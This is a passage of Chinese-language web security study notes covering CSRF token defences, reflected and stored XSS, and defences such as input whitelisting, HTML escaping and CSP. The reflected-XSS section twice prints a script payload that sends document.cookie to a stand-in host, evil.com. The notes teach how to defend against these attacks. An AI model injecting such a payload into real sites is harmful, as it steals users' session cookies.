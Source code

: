   ```
2. 在请求地址中添加 token 并验证；
   1. token是唯一的、秘密的、不可预测的值，由服务器端应用程序生成并以包含在客户端发出的后续 HTTP 请求中的方式传输到客户端。当发出后面的请求时，服务器端应用程序验证请求是否包含预期的token，如果token丢失或无效，则拒绝请求。
   2. **token不放在cookie中**，所以黑客要求user转发的请求中不会包括这个token，就会被server拦截
3. 在 HTTP 头中自定义属性并验证。

### XSS

攻击者将恶意脚本注入到受害者用户查看的网页中；脚本在用户浏览器中运行，可以访问页面数据。

#### 反射型XSS

**<非持久化>** 攻击者事先制作好攻击链接, 需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。

客户端访问恶意网站，点击钓鱼链接

```
http://bank.com/search.php?term=
<script> window.open(  "http://evil.com/?cookie = " +  document.cookie ) </script>
```

于是客户端访问了bank.com，server端返回（echo）一个HTML文件，内容为

```
<script> window.open("http://evil.com/?cookie = " +  document.cookie ) </script>
```

于是客户端执行了这段脚本，（可能是一些攻击指令或泄露重要信息），发送数据给attacker达到攻击的目的



![image-20220322162924741](assets/image-20220322162924741.png)

![image-20220322162936105](assets/image-20220322162936105.png)

#### 存储型XSS

**<持久化>** 代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，每当有用户访问该页面的时候都会触发代码执行，这种XSS非常危险，容易造成蠕虫，大量盗窃cookie

![img](https://upload-images.jianshu.io/upload_images/6230889-07ab49e8b1ea148a.png?imageMogr2/auto-orient/strip|imageView2/2/format/webp)

#### XSS的防御

- 检查输入是否符合预期形式(白名单而不是黑名单，因为各种JS语言的标识符太多了)

- 在将动态数据插入HTML之前对其进行转义（< > & " '）

| **Character** | **Escape** **Sequence** |
| ------------- | ----------------------- |
| <             | \&lt;                   |
| >             | \&gt;                   |
| &             | \&amp                   |
| “             | \&quot;                 |
| ‘             | \&#39;                  |

![image-20220321170859381](assets/image-20220321170859381.png)

**CSP: content security policy**

HTTP头允许响应指定白名单，指示浏览器只执行或呈现那些来源的资源

浏览器自动禁止外部注入恶意脚本
```